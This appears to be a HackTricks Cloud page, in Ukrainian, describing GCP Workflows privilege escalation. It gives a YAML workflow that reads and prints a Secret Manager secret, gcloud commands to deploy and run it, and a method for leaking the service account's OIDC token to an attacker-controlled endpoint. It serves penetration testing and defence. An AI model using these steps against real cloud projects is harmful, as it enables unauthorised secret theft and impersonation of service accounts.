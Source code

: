 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Основна інформація:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Наскільки мені відомо, неможливо отримати shell з доступом до кінцевої точки метаданих, що містить облікові дані SA, пов'язані з Workflow. Однак, можливо зловживати дозволами SA, додаючи дії для виконання всередині Workflow.

Можливо знайти документацію з конекторами. Наприклад, це [**сторінка конектора Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** У бічній панелі можна знайти кілька інших конекторів.

А ось приклад конектора, який друкує секрет:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Оновлення з CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Якщо ви отримали помилку, наприклад, `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, просто **почекайте хвилину і спробуйте знову**.

Якщо у вас немає доступу до вебу, можливо, ви зможете запустити та побачити виконання Workflow за допомогою:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Ви також можете перевірити вихідні дані попередніх виконань, щоб знайти чутливу інформацію
{% endhint %}

Зверніть увагу, що навіть якщо ви отримаєте помилку, наприклад, `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` через те, що у вас немає цього дозволу, робочий процес був згенерований.

### Витік OIDC токена (та OAuth?)

Згідно з [**документацією**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), можливо використовувати кроки робочого процесу, які надсилають HTTP запит з токеном OAuth або OIDC. Однак, як і в випадку з [Cloud Scheduler](gcp-cloudscheduler-privesc.md), HTTP запит з токеном Oauth повинен бути до хоста `.googleapis.com`.

{% hint style="danger" %}
Отже, **можливо витікати OIDC токен, вказуючи HTTP кінцеву точку**, контрольовану користувачем, але для витоку **OAuth** токена вам **потрібен обхід** для цього захисту. Однак ви все ще можете **контактувати з будь-яким GCP API для виконання дій від імені SA**, використовуючи або конектори, або HTTP запити з токеном OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

З цією дозволом замість `workflows.workflows.create` можливо оновити вже існуючий робочий процес і виконати ті ж атаки.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
